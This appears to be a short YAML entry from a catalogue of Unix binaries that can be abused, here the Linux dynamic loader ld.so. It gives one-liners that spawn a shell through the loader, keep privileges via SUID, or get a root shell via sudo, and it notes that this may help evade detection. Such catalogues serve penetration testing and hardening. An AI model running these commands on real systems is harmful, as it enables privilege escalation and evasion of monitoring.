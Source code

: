 ```yaml
---
description: |
  `ld.so` is the Linux dynamic linker/loader, its filename and location might change across distributions. The proper path is can be obtained with:

  ```
  $ strings /proc/self/exe | head -1
  /lib64/ld-linux-x86-64.so.2
  ```

  It's worth noting that the spawned process will be the loader, not the target executable, this might aid evasion. See https://shyft.us/posts/20230526_linux_command_proxy.html for more information.
functions:
  shell:
    - code: /lib/ld.so /bin/sh
  suid:
    - code: ./ld.so /bin/sh -p
  sudo:
    - code: sudo /lib/ld.so /bin/sh
---
```

